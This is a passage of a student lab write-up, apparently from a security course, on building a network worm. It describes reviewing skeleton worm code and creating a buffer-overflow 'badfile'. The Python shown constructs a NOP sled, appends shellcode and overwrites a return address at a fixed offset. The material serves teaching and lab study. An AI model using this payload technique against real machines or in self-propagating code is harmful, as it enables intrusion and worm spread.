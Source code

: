 By performing this action after each infection, we could track the spread of the worm throughout the network.

## Task 2 - Attack the First Target

In Task 2, we explored the implementation of the worm's functionality by analyzing and modifying its code to enable its propagation across the network.

### Task 2.A - The Skeleton Code

In this subtask, we reviewed the provided skeleton code for the worm in `worm.py`, identifying its main components such as the initialization, infection process, and communication methods.

### Task 2.B - Creating the badfile

In this subtask, we created a badfile, a malicious payload used by the worm to exploit the target machine's vulnerabilities. The badfile is crafted using buffer overflow attack, giving the worm access to the target system. Using the lab's provided `createBadFile()` method, we modified its content:

```python
import sys
import os
import time
import subprocess
from random import randint

# Create the badfile (the malicious payload)
def createBadfile():
   content = bytearray(0x90 for i in range(500))

   # Put the shellcode at the end
   shellcode_length = len(shellcode)
   content[500-len(shellcode):] = shellcode

   ret = 0xffffd588 + 180
   offset = 0x74
   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)
```

To see the correct parameters, we needed to search for pointers using the terminal and one IP target:

![Task 2 B 1](./img/Lab4/Task2.A.png)
![Task 2 B 2](./img/Lab4/Task2.B.png)
